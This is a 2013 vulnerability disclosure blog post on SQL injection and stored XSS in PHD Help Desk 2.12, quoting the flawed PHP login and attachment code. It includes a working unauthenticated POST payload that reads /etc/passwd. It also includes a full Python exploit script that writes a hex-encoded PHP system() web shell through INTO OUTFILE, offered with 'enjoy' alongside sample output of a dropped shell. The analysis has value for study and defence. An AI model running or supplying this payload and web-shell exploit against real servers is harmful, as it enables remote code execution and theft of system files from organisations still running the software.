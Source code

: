 ```yaml
---
categories:
- sqli
- xss
- phd
comments: false
date: "2013-06-02T22:55:27Z"
title: PHD Help Desk 2.12 - SQLi/XSS
---
```


[PHD Help Desk](http://www.p-hd.com.ar/) is a help desk application used for managing help tickets in corporate/enterprise environments.  The latest version (2.12) is vulnerable to, well, quite a few instances of SQLi and XSS.  I'll try and go through a couple, but there are so many it's sort of embarrassing, and none of them are at all complex.  The software is clocking ~200 downloads/week on Sourceforge, and no telling how many off their website, so it's definitely still out there somewhere.  These issues have been disclosed to the vendor and a generous amount of time to fix them has since passed.

The first place we'll start is `login.php`, which tellingly holds all of the login logic.  Here's the relevant bit:

```
$operador=trim(strip_tags($_POST[operador]));
$query="SELECT * FROM {$MyPHD}operador WHERE operador_id='$operador'";
$result=mysql_query($query) or die(mysql_error());
$q_filas=mysql_num_rows($result);

if($q_filas!=1)
       {$mensaje=$Oper_not_autorized;
        require($Include.'login.inc');
        exit();
       }

### Ahora verifico la contraseña
$md5_contrasenia=md5($_POST['contrasenia']);

$query="SELECT * FROM {$MyPHD}operador WHERE operador_id='$operador' AND contrasenia='$md5_contrasenia'";
$result=mysql_query($query) or die (mysql_error());;
$q_filas=mysql_num_rows($result);

if ($q_filas!=1)
             {$mensaje=$Invalid_passwd;
             require($Include.'login.inc');
             exit();
            }

$data=mysql_fetch_array($result);
if ($data['nivel']<1)
               {$mensaje=$Oper_not_autorized;
                require($Include.'login.inc');
                exit();
               }
```

This doesn't even really try to sanitize anything.  [strip_tags](http://php.net/manual/en/function.strip-tags.php) is used to remove HTML and PHP tags from a string, and [trim](http://php.net/manual/en/function.trim.php) strips whitespace; what?  It pulls out the username, checks it in the database, then pulls the password, md5's it, and checks that in the database.  Plenty of opportunity for SQLi, but no way to get around the login screen with a simple `' OR '1=1`, due to the final query using the md5 of the password.  We could use a malicious username and comment that out, but then the first query would fail.  So instead, we'll just use the username to run malicious queries.

Submitting the following POST data to login.php will dump `/etc/passwd`

```
operador=' UNION SELECT LOAD_FILE('/etc/passwd'),2,3,4,5,6,7,8,9,10,11,12,13,14 INTO OUTFILE '/var/www/phd_2_12/psswd&contrasenia=asdf&submit=Enter&captcha=
```

{{< figure class="center" src="http://4.bp.blogspot.com/-Ss9O_o4PeAI/UaBAiG65xPI/AAAAAAAAAfI/CvOmVOtxEVw/s640/phd_psswd.jpg" >}}

With this, we can naturally obtain a web shell, as demonstrated by the exploit code I've developed:

```
root@jali:~# python phd_sqli.py -h
usage: phd_sqli.py [-h] [-i IP] [-p ROOTP] [-w PATH]

optional arguments:
  -h, --help  show this help message and exit
  -i IP       server address
  -p ROOTP    path to login.php (/phd_2_12)
  -w PATH     writable web path (/var/www/phd_2_12) for shell
root@jali:~# python phd_sqli.py -i 192.168.1.83
[!] Dropping web shell on 192.168.1.83...
[!] Shell dropped.  http://192.168.1.83/phd_2_12/0m05k.php?rr=ls
root@jali:~# 
```
As a note, `strip_slashes` prevents us from submitting anything that includes HTML or PHP tags in it. So I've gotten around that by simply hex encoding the string:

```
# <? php system($_GET["rr"]); ?>
data = urllib.urlencode({'operador':('\' UNION SELECT 0x3c3f7068702073797374656d28245f4745545b227272225d293b3f3e'
                                     ',2,3,4,5,6,7,8,9,10,11,12,13,14 INTO OUTFILE'
                                     ' \'{0}/{1}.php'.format(options.path,shell)),
                         'contrasenia':'pass',
                         'submit':'Enter',
                         'captcha':''})
```

There's another SQLi vulnerability in `abro_adjunto.php`, which requires authentication to the application:

```
if (isSet($_GET['file']))

    {$query="SELECT *
             FROM {$MyPHD}sigo_ticket
             WHERE seq_sigo_ticket_id={$_GET['file']} ";
             
     $result=mysql_query($query) or die (mysql_error());
     
     $row = mysql_fetch_array($result);

     $tipo_adjunto = $row['tipo_adjunto'];
     $adjunto = $row['adjunto'];
     $nombre_adjunto = $row['nombre_adjunto'];

     if(strlen($nombre_adjunto)>1)
        {header("Content-type: $tipo_adjunto");
         header("Content-Disposition: attachment; filename=\"$nombre_adjunto\"");
         echo $adjunto;
        }
     else
        {require('head.inc');
         echo "<div class='error'>INVALID CALL </div>";
        }
    }
```

And the sanitization for this (and most files, really) is as follows:

```
if (get_magic_quotes_gpc())
    { foreach($_GET as $clave => $valor)
      {$_GET[$clave]=stripslashes($_GET[$clave]);
      }
    }

foreach($_GET as $clave => $valor)
     {$_GET[$clave]=trim(htmlentities($_GET[$clave],ENT_QUOTES));
     }
```

[htmlentities](http://php.net/manual/en/function.htmlentities.php), when specified with the ENT_QUOTES flag, will convert both single and double quotes into HTML entities, and will thus not be injectable.  However, the above query doesn't even use quotes, thus there is nothing to escape.

There's stored XSS within all Attributes (Contact, Process, State, Type) that's loaded when viewing users:

{{< figure class="center" src="http://3.bp.blogspot.com/-AswfkyCHhRo/UaBswveQO1I/AAAAAAAAAfo/vBJREQ-qHjE/s640/phd_xss.jpg" >}}

Here's the code for dropping a web shell; enjoy:

```
# Exploit Title: PHD Help Desk 2.12 SQLi
# Date: 05/24/2013
# Exploit Author: drone (@dronesec)
# Vendor Homepage: http://www.p-hd.com.ar/
# Software Link: http://downloads.sourceforge.net/project/phd/phd_released/phd%202.12/phd_2_12.zip
# Version: 2.12
# Tested on: Ubuntu 12.04 (apparmor disabled)

""" This app is so full of SQLi & XSS; if you're looking for
    practice with real web apps, this is a good place to go.

    You don't need auth for this.
    @dronesec
"""
from argparse import ArgumentParser
import string
import random
import urllib, urllib2
import sys

def run(options):
    print '[!] Dropping web shell on %s...'%(options.ip)

    shell = ''.join(random.choice(string.ascii_lowercase+string.digits) for x in range(5))

    # <? php system($_GET["rr"]); ?>
    data = urllib.urlencode({'operador':('\' UNION SELECT 0x3c3f7068702073797374656d28245f4745545b227272225d293b3f3e'
                                    ',null,null,null,null,null,null,null,null,null,null,null,null,null INTO OUTFILE'
                                        ' \'{0}/{1}.php'.format(options.path,shell)),
                             'contrasenia':'pass',
                             'submit':'Enter',
                             'captcha':''})

    urllib2.urlopen('http://{0}{1}/login.php'.format(options.ip, options.rootp), data)
    print '[!] Shell dropped.  http://%s%s/%s.php?rr=ls'%(options.ip,options.rootp,shell)

def parse():
    parser = ArgumentParser()
    parser.add_argument('-i',help='server address',action='store',dest='ip')
    parser.add_argument('-p',help='path to login.php (/phd_2_12)',action='store',
                default='/phd_2_12', dest='rootp')
    parser.add_argument('-w',help='writable web path (/var/www/phd_2_12) for shell',
                default='/var/www/phd_2_12/', action='store', dest='path')

    options = parser.parse_args()
    if not options.ip:
        parser.print_help()
        sys.exit(1)

    options.path = options.path if options.path[-1] != '/' else options.path[:-1]
    options.rootp = options.rootp if options.path[-1] != '/' else options.path[:-1]
    return options

if __name__=="__main__":
    run(parse())
```

[Exploit](http://www.exploit-db.com/exploits/25915/)
